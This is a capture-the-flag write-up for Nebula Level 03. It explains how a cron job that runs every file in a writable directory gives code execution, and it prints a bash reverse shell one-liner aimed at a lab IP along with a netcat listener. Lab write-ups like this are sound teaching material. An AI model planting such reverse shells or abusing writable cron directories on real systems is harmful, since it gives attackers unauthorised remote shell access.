

# Level 03 - Nebula

```
Check the home directory of flag03 and take note of the files there.

There is a crontab that is called every couple of minutes.

To do this level, log in as the level03 account with the password level03. Files for this level can be found in /home/flag03.
```


Inside of the directory, we find the writable.d directory and writable.sh. writable.sh (whats being executed by the "crontab") contains:

```bash
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

This program loops through the files in the writable.d directory and executes and then deletes them if they're executable. This gives us an immediate path to code execution and we can just throw whatever bash we want in that directory.

I used [this website](https://www.revshells.com/) to generate this bash reverse shell (I'm using a [local network](https://sp1icersec.wordpress.com/2018/09/07/exploit-exercises-nebula-setup/)):

```bash
sh -i >& /dev/tcp/192.168.56.101/4444 0>&1
```

and I used this listener on my Kali machine:

```bash
nc -lvnp 4444
```

